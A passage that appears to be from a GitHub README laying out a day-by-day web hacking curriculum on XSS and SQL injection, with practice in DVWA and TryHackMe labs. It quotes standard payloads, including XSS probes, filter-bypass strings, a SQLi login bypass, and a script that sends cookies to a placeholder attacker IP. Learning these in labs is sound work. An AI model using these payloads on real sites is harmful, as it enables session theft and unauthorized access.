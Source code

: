   * Learn the building blocks of web pages and basic JavaScript used in web apps and attacks.

* **Day 9: What is XSS?**

  * Learn about Cross-Site Scripting, types (reflected, stored), and how it affects websites.

* **Day 10: Practice Reflected XSS**

  * Inject scripts into search bars or URL parameters to trigger popups (`<script>alert(1)</script>`).

* **Day 11: Practice Stored XSS**

  * Save scripts in comment sections or form fields to attack future users.

* **Day 12: Cookie Stealing with JS + Python**

  * Use `<script>document.location='http://your-ip?c='+document.cookie</script>` to steal cookies.

* **Day 13: XSS Filter Bypasses**

  * Learn tricks like `<img src=x onerror=alert(1)>`, `&#x3C;script&#x3E;`, etc.

* **Day 14: XSS Lab + Review**

  * Do DVWA XSS exercises and TryHackMe’s XSS challenges.

---

## 🔓 Phase 2: Web Hacking (Weeks 3–4)

Understand how web vulnerabilities work (SQLi, CSRF, File Upload) and how to exploit them.

### 📅 Week 3: SQL Injection

* **Day 15: SQLi Theory**

  * Learn how unsanitized SQL queries can be manipulated by attackers.

* **Day 16: Manual SQLi in Login Forms**

  * Test logins using payloads like `' OR '1'='1` to bypass authentication.

* **Day 17: SQLMap Tool**

  * Automate SQLi attacks using SQLMap.

* **Day 18: Auth Bypass**

  * Use SQLi payloads to gain unauthorized access.

* **Day 19: Dumping DBs**

  * Extract usernames, passwords, emails from the database.

* **Day 20: Blind SQLi**

  * Exploit data when the server doesn't show errors using timing-based techniques.

* **Day 21: Practice Labs**

  * Practice SQLi in DVWA and TryHackMe environments.
